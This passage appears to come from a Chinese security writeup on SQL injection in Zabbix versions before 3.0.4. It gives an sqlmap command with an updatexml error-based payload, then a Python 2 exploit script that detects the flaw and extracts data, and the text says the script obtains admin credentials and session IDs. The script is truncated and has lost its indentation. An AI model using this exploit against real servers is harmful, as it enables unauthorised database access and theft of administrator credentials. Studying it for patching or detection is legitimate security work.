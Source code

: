 sqlmap跑一下  
```
python3 sqlmap.py -u "http://192.168.14.128:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0x7e,database()),0x7e)" -p profileIdx2
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6iaS4QIpvF3kDBibJiaYKljFUTHlbwD1jamh0icgPib1ImQMAXJe8ISwtibgh2JmagbCX4qicFac9YEic1w/640?wx_fmt=png "")  
  
（2）利用以下POC获取管理员用户名/密码和session_id。在python2环境下运行该脚本。也可使用工具获取账户。  
```
# -*- coding: utf-8 -*-
# Date: 2016/8/18

import urllib2
import sys, os
import re

def deteck_Sql():
u'检查是否存在 SQL 注入'
payload = "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get×tamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=999'&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1"
try:
response = urllib2.urlopen(url + payload, timeout=10).read()
except Exception, msg:
print msg
else:
key_reg = re.compile(r"INSERT\s*INTO\s*profiles")
if key_reg.findall(response):
return True

def sql_Inject(sql):
u'获取特定sql语句内容'
payload = url + "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get×tamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=" + urllib2.quote(
sql) + "&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"
try:
response = urllib2.urlopen(payload, timeout=10).read()
except Exception, msg:
print msg
else:
result_reg = re.compile(r"Duplicate\s*entry\s*'~(.+?)~1")
results = result_reg.findall(response)
if results:
return results[0]

if __name__ == '__main__':
# os.system(['clear', 'cls'][os.name == 'nt'])
print '+' + '-' * 60 + '+'
print u'\t Python Zabbix < 3.0.4 SQL 注入 Exploit'
print '\t Origin Author: http://www.waitalone.cn/'
print '\t\t Modified by: Jamin Zhang'
print '\t\t Date: 2016-08-18'
print '+' + '-' * 60 + '+'
if len(sys.argv) != 2:
print u'用法: ' + os.path.basename(sys.argv[0]) + u' [Zabbix Server Web 后台 URL]'
print u'实例: ' + os.path.basename(sys.argv[0]) + ' http://jaminzhang.github.io'
sys.exit()
url = sys.argv[1]
if url[-1] != '/': url += '/'
```